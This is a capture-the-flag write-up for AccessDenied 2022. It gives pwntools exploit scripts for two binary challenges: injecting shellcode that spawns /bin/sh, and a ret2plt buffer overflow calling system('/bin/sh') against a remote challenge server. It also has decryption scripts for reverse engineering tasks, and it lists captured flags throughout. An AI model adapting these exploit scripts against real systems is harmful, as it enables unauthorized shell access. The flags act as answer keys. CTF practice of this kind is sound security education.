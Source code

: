 # Binary Exploitation

## Shellcode

### Files

[Download Files](https://github.com/CodeEatSleepRepeatPY/website/raw/gh-pages/accessdenied-2022/files/shellcode.zip)

### Description

The challenge executes the machine code that we supply to the input.

### Solution

pwntools makes life easy when it comes to crafting shellcode, especially since the character limit is pretty big (512 characters is the limit).

```python
from pwn import *

r = remote('34.134.85.196', 5337)
elf = context.binary = ELF('./shellcode')

payload = flat(
    asm(shellcraft.sh())
)

print(asm(shellcraft.sh()))

r.sendline(payload)
r.interactive()
```
`flag: accessdenied{3x3cut3d_x64_sh3ll_0v3rfl0w_5ucc3ssfully_611a1501}`

## ret2system

### Files

[Download Files](https://github.com/CodeEatSleepRepeatPY/website/raw/gh-pages/accessdenied-2022/files/ret2system.zip)

### Description

The challenge asks us for 2 inputs, the string we want to store and our buffer overflow payload.

### Solution

Since the challenge uses system within the binary itself, we don't need to leak libc, we can just use plt@system to get a shell. In order to get a shell, we need to call `plt@system("/bin/sh")` but after looking through gdb and ida I couldn't find the `/bin/sh` string. This is where we can make use of the first input we're asked to give; Since the program stores the first input into memory we can just supply the `bin/sh` to that input, and we will have it saved in memory. After doing all that, we still need to take care of the stack alignment issues ([read more about stack alignment issues here](https://ropemporium.com/guide.html#Common%20pitfalls)), so we will need to add a return before calling system and that should be it. Running the following code will give us the flag:

```python
from pwn import *
from pprint import pprint

r = remote('34.134.85.196', 9337)
elf = context.binary = ELF('./ret2system')

ret = 0x0804900e

r.sendlineafter(b'value', b'bin/sh\x00')

pprint(elf.sym)

payload = flat(
    'a'*40,
    p32(ret),
    elf.plt['system'],
    p32(0x00),
    elf.sym['store']
)

r.sendlineafter(b'now', payload)
r.interactive()
```

`flag: accessdenied{n3xt_1_w1ll_n0t_1nclud3_system_func710n_1t53lf_e8dd6fc7}`

# Reverse Engineering

## babyrev

### Files

[View Source Code](files/rev1.c)

### Description

The program encrypts a flag, and we're going to have to decrypt it.

### Solution

The reverse function is self-inverse so we can use the same function to decrypt the flag. Doing the encryption steps backwards, will give us the flag.

```python
flag = [-111, -47, -47, -79, -39, -39, 49, -79, 97, -127, -79, 49, -55, 9, 27, 89, -19, 59, 97, 49, -19, 89, -37, 121, -37, 89, -69, -37, -19, -111, 89, -37, -19, 113, -71, 97, -19, -101, 49, 49, 11, 91, -69, 11, -79, -87]
xor = 23

def reverse(ch):
    x=0 
    for i in range(8):
        x*=2
        if ch & (1 << i):
            x+=1
    print(x)
    return chr(x)

for i in range(len(flag)):
    flag[i]^=xor
    flag[i] = reverse(flag[i])
print("".join(flag))
```

`flag: accessdenied{x0r_4nd_r3v3r53_ar3_fun_1dd8258e}`

## Enormous

### Files

[Download Files](https://github.com/CodeEatSleepRepeatPY/website/raw/gh-pages/accessdenied-2022/files/enormous)

### Description

We are given a program that has tons of if statements to check if the input we supplied is correct or not.

### Solution

When I opened up the program up in IDA, i realized that there is a very little chance that the flag would actually be this long. So i tried to find what if statement has a comparison with the number 125 which is the ascii value of `}` (since `}` indicates that we reached the end of the flag) and i realized that it's actually not that far down, so instead of writing a script and automating it, i just ran through the code manually and got the following flag:

`flag: accessdenied{US3_AngR_F0R_M4k1nG_Lif3_B3Tt3R_57a27836}`

## Bits are Fun

### Files 

[View Source Code](files/rev2.c)

### Description

The program encrypts a flag, and we're going to have to decrypt it.

### Solution

The source code looks really tedious to read and can get really confusing. My intuition was telling me that the `left_rotate_and_right_rotate()` function is self-inversible, so i tried it out on a few of my own inputs. After a few expirements i found out that calling the function n-1 times on the input (where n is the number of characters in the flag) will actually revert it back to its original form. So since the encrypted flag has 61 characters, calling the function on the flag 60 times, will give us the flag in its original form (decrypted).

```c
#include <stdio.h>
#include<stdlib.h>
#include<string.h>

#define MAXSIZE 100

char flag[] = {105, 97, 103, 115, 113, 102, 103, 100, 97, 111, 108, 113, 100, 59, 108, 118, 119, 112, 26, 118, 52, 116, 49, 117, 54, 78, 100, 127, 112, 27, 103, 96, 118, 125, 112, 26, 118, 52, 116, 49, 53, 119, 52, 90, 49, 119, 98, 30, 120, 100, 119, 53, 75, 52, 49, 97, 102, 103, 54, 117, 97};

void left_rotate_and_right_rotate(char str[]) {
    int len = strlen(str);
    for(int i = 0; i < 8; i++) {
        if((i & 1)) {
            int store = ((((1 << i) & str[len - 1]) > 0) ? 1 : 0);
            for(int j = len - 2; j >= 0; j--) {
                int bit = ((((1 << i) & str[j]) > 0) ? 1 : 0);
                str[j + 1] &= (~(1 << i));
                str[j + 1] |= (1 << i) * bit;
            }
            str[0] &= (~(1 << i));
            str[0] |= (1 << i) * store;
        }
        else {
            int store = ((((1 << i) & str[0]) > 0) ? 1 : 0);
            for(int j = 1; j < len; j++) {
                int bit = ((((1 << i) & str[j]) > 0) ? 1 : 0);
                str[j - 1] &= (~(1 << i));
                str[j - 1] |= (1 << i) * bit;
            }
            str[len - 1] &= (~(1 << i));
            str[len - 1] |= (1 << i) * store;
        }
    }
}

int main()
{
    for(int i = 0; i < 60; i++){
        left_rotate_and_right_rotate(flag);
    }
    printf("%s", flag);

    return 0;
}
```

`flag: accessdenied{l3ft_r0t4t3_4nd_r1ght_r0t4t35_4r3_h4rd_5a43cfe4}`
